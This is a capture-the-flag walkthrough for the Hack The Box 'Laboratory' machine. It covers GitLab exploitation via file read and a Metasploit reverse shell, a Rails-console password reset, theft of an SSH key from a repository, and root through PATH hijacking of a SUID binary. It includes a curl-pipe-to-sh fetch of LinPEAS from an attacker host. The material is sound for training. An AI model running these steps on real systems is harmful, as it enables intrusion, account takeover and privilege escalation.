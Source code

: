 ```yaml
---
description: Writeup for Laboratory from Hack the Box
---
```


# Laboratory

## Recon

`nmap -sV -T4 -p- 10.10.10.216`

```text
PORT    STATE SERVICE  VERSION                                  
22/tcp  open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http     Apache httpd 2.4.41                                     
443/tcp open  ssl/http Apache httpd 2.4.41 ((Ubuntu))              
Service Info: Host: laboratory.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Accessing the IP address via HTTP returns a 302 status code, and redirects to `https://laboratory.htb/`

![](../../.gitbook/assets/f827cf0c325f46dfa1da1071d0dd4117.png)

Add the following line to the `/etc/hosts` file:

```text
10.10.10.216    laboratory.htb
```

Now the page displays properly.

![](../../.gitbook/assets/2ea7149a079e454a8f1a569edb9bb805.png)

If we scroll down, we can see that Dexter is listed as the CEO of the company.

Looking at the source code:

![](../../.gitbook/assets/dae7bb4923c1417bb33a78b0a7b2c22d.png)

Navlinks commented out. However, `elements.html` and `generic.html` do not exist.

`gobuster dir -u https://laboratory.htb/ -w /usr/share/wordlists/dirb/common.txt -k`

```text
/.hta (Status: 403)
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/assets (Status: 301)
/images (Status: 301)
/index.html (Status: 200)
/server-status (Status: 403)
```

When I first ran gobuster without the `-w` flag, I got this error:

```text
Error: error on running goubster: unable to connect to https://laboratory.htb/: invalid certificate: x509: certificate is valid for git.laboratory.htb, not laboratory.htb
```

So I added the following to `/etc/hosts`:

```text
10.10.10.216    git.laboratory.htb
```

and accessed `git.laboratory.htb`.

![](../../.gitbook/assets/6935335c792e44c5a7e3db348ae4852e.png)

## Foothold

`searchsploit gitlab`

```text
--------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                               |  Path
--------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
GitLab - 'impersonate' Feature Privilege Escalation                                                                                          | ruby/webapps/40236.txt
GitLab 11.4.7 - RCE (Authenticated)                                                                                                          | ruby/webapps/49334.py
Gitlab 11.4.7 - Remote Code Execution                                                                                                        | ruby/webapps/49257.py
GitLab 11.4.7 - Remote Code Execution (Authenticated)                                                                                        | ruby/webapps/49263.py
GitLab 12.9.0 - Arbitrary File Read                                                                                                          | ruby/webapps/48431.txt
Gitlab 12.9.0 - Arbitrary File Read (Authenticated)                                                                                          | ruby/webapps/49076.py
Gitlab 6.0 - Persistent Cross-Site Scripting                                                                                                 | php/webapps/30329.sh
Gitlab-shell - Code Execution (Metasploit)                                                                                                   | linux/remote/34362.rb
Jenkins Gitlab Hook Plugin 1.4.2 - Reflected Cross-Site Scripting                                                                            | java/webapps/47927.txt
NPMJS gitlabhook 0.0.17 - 'repository' Remote Command Execution                                                                              | json/webapps/47420.txt
--------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
```

I went ahead and created an account. Note: to overcome the email domain validation, use `@laboratory.htb` for the email domain.

![](../../.gitbook/assets/f4ecdba01e83475fa505cb86b1ea7503.png)

### First Try: Gitlab 12.9.0 - Arbitrary File Read

Found an exploit code here: [https://github.com/thewhiteh4t/cve-2020-10977](https://github.com/thewhiteh4t/cve-2020-10977)

\(for Gitlab 12.9.0 - Arbitrary File Read\)

`python3 gitlab_exploit.py https://git.laboratory.htb me zeyu2001`

We can read the `/etc/passwd` file:

![](../../.gitbook/assets/2d1b6606cace422b8d43c31ccbcc74a8.png)

### Second Try: Gitlab 11.4.7 - Remote Code Execution

Didn't work with any of the open-source Python scripts. If this was the actual OSCP, I would have used my Metasploit 'budget' on this machine.

![](../../.gitbook/assets/246ca55d690a46399c40ce9ab7351def.png)

Using Metasploit with the above options, I was able to spawn a reverse shell.

'Upgrade' the shell: `python3 -c 'import pty;pty.spawn("/bin/bash")'`

## User Flag

Now that we gained a shell as the `git` user, we are inside the `gitlab-rails` CLI. In order to gain access to Dexter's account, we need to reset the password, like this: [https://docs.gitlab.com/ee/security/reset\_user\_password.html](https://docs.gitlab.com/ee/security/reset_user_password.html)

Since Dexter is likely the 'main user', I guessed that his user ID is 1.

![](../../.gitbook/assets/934696a5142a4a54aca5019307da4234.png)

Full commands to reset the password via Rails Console:

```text
gitlab-rails console -e production
user = User.find(1)
user.password = 'mynewpass'
user.password_confirmation = 'mynewpass'
user.save!
exit()
```

Using the `dexter:mynewpass` combination, we can login to the GitLab web GUI.

![](../../.gitbook/assets/06acc8974db44e15b5da86e1c2fdc428.png)

I then tried to SSH into Dexter's account, but a public/private key pair is required.

From the SecureDocker repo, we can navigate to `securedocker/dexter/.ssh/id_rsa` to get the private key. Save this in a file `id_rsa` on the attacking machine. Note that the public key for this privste key is in the `securedocker/dexter/.ssh/authorized_keys` file.

![](../../.gitbook/assets/7f7cce2dac67451a8dbcebfa503e1331.png)

SSH in: `ssh -i id_rsa dexter@git.laboratory.htb`. We can now get the `user.txt`:

![](../../.gitbook/assets/00d0ac0ba88a4534a148b66f7c6ddf27.png)

## Root Flag

Run LinPEAS \(start Python Simple HTTP Server on attacking machine, then do `curl "http://10.10.14.16/linpeas.sh" | sh` in SSH\)

### Try 1: containerd / runc

![](../../.gitbook/assets/09236e2325bc49e393211642413b1d13.png)

Sadly, neither worked.

### Try 2: SUID Files

In the list of SUID files \(from the LinPEAS output\), the `/usr/local/bin/docker-security` binary looked out of place.

![](../../.gitbook/assets/4bda9b4402c24ac9b54b9c8d2fc28245.png)

Strings wasn't installed on the target machine, so I downloaded the binary into my Kali machine: `scp -i id_rsa dexter@laboratory.htb:/usr/local/bin/docker-security .`

### PATH Variable Manipulation

`strings docker-security`

![](../../.gitbook/assets/2d7f05e7b4dc46ceb85876ed3730866a.png)

Good, the binary uses _relative_ paths for `setuid`, etc. This allows us to create our own `setuid` binary, and manipuate the PATH variable so that our own binary is executed instead.

#### Standard Steps

* Change working directory to `/tmp`: `cd /tmp`
* Copy the `/bin/sh` shell and call it `setuid`: `echo /bin/sh > setuid`
* Give the correct permissions: `chmod 777 setuid`
* Put its location, the `/tmp` directory, in the PATH: `export PATH=/tmp:$PATH`

```bash
dexter@laboratory:~$ cd /tmp
dexter@laboratory:/tmp$ echo /bin/sh > setuid
dexter@laboratory:/tmp$ chmod 777 setuid
dexter@laboratory:/tmp$ export PATH=/tmp:$PATH
dexter@laboratory:/tmp$ /usr/local/bin/docker-security
```

Since the SUID flag is set, the `/bin/sh` is run as `root`, which is the _owner_ of the file. Here, we created a fake `setuid` binary and added the `/tmp` directory to the PATH. When the `docker-security` binary runs `setuid`, our fake binary is run, spawning a bash shell as root.

### Getting the Root Flag

![](../../.gitbook/assets/a81e92142dcd4472a904b656d61aa47e.png)

